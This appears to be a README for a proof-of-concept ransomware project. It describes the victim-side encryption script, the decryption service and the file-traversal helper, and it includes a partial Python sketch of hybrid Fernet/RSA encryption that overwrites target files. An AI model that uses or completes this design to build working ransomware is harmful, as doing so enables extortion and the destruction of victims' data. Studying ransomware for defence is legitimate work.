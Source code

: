 
## Project Structure

This proof of concept demonstrates a simplified ransomware system with two main components:

```
├── ransom-encrypt.py    # Victim-side encryption script
├── ransom-decrypt.py    # Server-side decryption service
├── traverse.py          # File discovery utility
├── r.py                 # Legacy encryption script
└── README.md           # This documentation
```

---

## Code Analysis

### `ransom-encrypt.py` - Encryption Component

This script demonstrates the victim-side encryption process:

#### Key Features:
- **Hybrid Encryption**: Uses Fernet (AES-128) for file encryption and RSA for key protection
- **Key Generation**: Creates a random symmetric key for each execution
- **Public Key Encryption**: Encrypts the symmetric key using RSA-OAEP padding
- **File Encryption**: Overwrites target files with encrypted data

#### Process Flow:
1. Generate a random Fernet symmetric key
2. Load the attacker's public RSA key from file
3. Encrypt the symmetric key using RSA-OAEP
4. Save the encrypted symmetric key to `encryptedSymmertricKey.key`
5. Encrypt target files using the symmetric key
6. Overwrite original files with encrypted versions

#### Code Structure:
```python
# Key generation
symmetricKey = Fernet.generate_key()
FernetInstance = Fernet(symmetricKey)

# Public key loading and symmetric key encryption
with open("/path/to/Ransomware/public_key.key", "rb") as key_file:
    public_key = serialization.load_pem_public_key(key_file.read())
    
encryptedSymmetricKey = public_key.encrypt(
    symmetricKey,
    padding.OAEP(...)
)

# File encryption
encrypted_data = FernetInstance.encrypt(file_data)
```
